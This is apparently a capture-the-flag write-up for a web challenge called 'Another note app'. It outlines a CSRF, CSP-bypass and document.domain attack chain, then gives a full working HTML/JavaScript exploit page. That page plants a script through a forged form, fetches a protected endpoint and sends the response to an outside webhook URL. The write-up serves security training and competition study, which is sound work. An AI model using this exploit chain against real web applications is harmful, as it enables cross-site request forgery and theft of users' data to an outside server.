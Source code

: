 # Another note app
- Number of solves: 0
 
1. CSRF to add note
2. Bypass CSP on notes website with putting script and html file in a same file.
```js
alert();
`
<script src="/self">
</script>
`
```
3. Make main website same-origin with note website with giving `document.domain=document.domain` as feature
4. Use main domain's fetch to grep the flag.
Exploit:
```js
<html>
	<head>
	</head>
	<body>
		<script>
			window.target = {domain : "139.162.238.54", main : "http://139.162.238.54:9090",webhook:"https://webhook.site/-b79b-8005f993da3a"};
			var status = window.name;
			var t = 8;
			
			function getIncludeScriptPayload(){
				let payload = document.createElement("iframe");
				payload.srcdoc =  `<script src=${target.main}/note><\/script>`;
				return payload.outerHTML;
			}

			if(status == "csrf_note_include_script"){
				var form = document.createElement("form");
				form.id = "csrfForm";
				form.method = "POST";
				form.action = target.main+"/note";
				var inp = document.createElement("input");
				var jspayload = `
					document.domain="${target.domain}";
					setTimeout(()=>{
						parent.parent.opener.fetch("/flag",{method:"POST",headers:{"x-i-want":"flag"}}).then(r=>r.text()).then(r=>{
							parent.parent.location="${target.webhook}?flag="+r;
						});
					},1000);
				`.replace(/\n/g,"",/ /g,"");
				inp.value = jspayload+";`"+getIncludeScriptPayload()+"`";
				inp.name = "note";
				form.appendChild(inp);
				document.body.appendChild(form);
				csrfForm.submit();
			}


			if(status == "start_attack"){
				window.open("?","csrf_note_include_script");
				document.location = `${target.main}?feature=document.domain=document.domain`
			}

			function startattack(){
				window.open("?","start_attack");
			}

			if(status == "" || !isNaN(status)){
				startattack();
			}
		</script>
		<button onclick="startattack()">Attack</button>
	</body>
</html>
```
